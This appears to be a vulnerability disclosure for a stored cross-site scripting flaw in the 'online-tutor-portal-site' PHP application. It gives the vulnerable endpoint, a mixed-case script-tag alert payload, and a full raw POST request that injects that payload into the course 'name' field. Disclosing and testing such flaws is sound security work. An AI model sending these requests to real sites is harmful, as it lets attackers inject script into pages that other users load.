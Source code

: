 # online-tutor-portal-site - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15339/online-tutor-portal-site-phpopp-free-source-code.html

Date: 2022-05-07

Vulnerability File: /otps/classes/Master.php

Vulnerability location: /otps/classes/Master.php?f=save_course, name

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/otps/classes/Master.php?f=save_course HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------23528694527160792041879147157
Content-Length: 940
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/otps/admin/?page=courses
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj

-----------------------------23528694527160792041879147157
Content-Disposition: form-data; name="id"

6
-----------------------------23528694527160792041879147157
Content-Disposition: form-data; name="tutor_id"

4
-----------------------------23528694527160792041879147157
Content-Disposition: form-data; name="name"

<sCrIpT>alert(1)</sCrIpT>
-----------------------------23528694527160792041879147157
Content-Disposition: form-data; name="description"

Sample Course 102
-----------------------------23528694527160792041879147157
Content-Disposition: form-data; name="experience"

5
-----------------------------23528694527160792041879147157
Content-Disposition: form-data; name="status"

0
-----------------------------23528694527160792041879147157
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------23528694527160792041879147157--

```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/xss.gif?raw=true)